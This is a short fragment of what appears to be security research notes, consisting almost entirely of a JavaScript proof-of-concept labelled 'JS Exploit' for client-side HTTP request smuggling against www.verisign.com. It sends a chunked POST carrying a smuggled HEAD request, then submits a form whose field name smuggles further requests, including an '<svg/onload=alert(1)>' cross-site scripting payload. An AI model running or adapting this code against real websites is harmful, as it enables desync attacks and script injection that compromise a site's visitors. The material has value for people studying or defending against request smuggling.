 ![](<../../.gitbook/assets/image (5) (2) (1).png>)

* **JS Exploit**

```javascript
fetch('https://www.verisign.com/%2f', { 
    method: 'POST',
    body: `HEAD /assets/languagefiles/AZE.html HTTP/1.1\r\nHost: www.verisign.com\r\nConnection: keep-alive\r\nTransfer-Encoding: chunked\r\n\r\n34d\r\nx`, 
    credentials: 'include',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'
}}).catch(() => {
    let form = document.createElement('form')
    form.method = 'POST'
    form.action = 'https://www.verisign.com/robots.txt'
    form.enctype = 'text/plain'
    let input = document.createElement('input')
    input.name = '0\r\n\r\nGET /<svg/onload=alert(1)> HTTP/1.1\r\nHost: www.verisign.com\r\n\r\nGET /?aaaaaaaaaaaaaaa HTTP/1.1\r\nHost: www.verisign.com\r\n\r\n'
    input.value = ''
    form.appendChild(input)
    document.body.appendChild(form)
    form.submit()
}
```

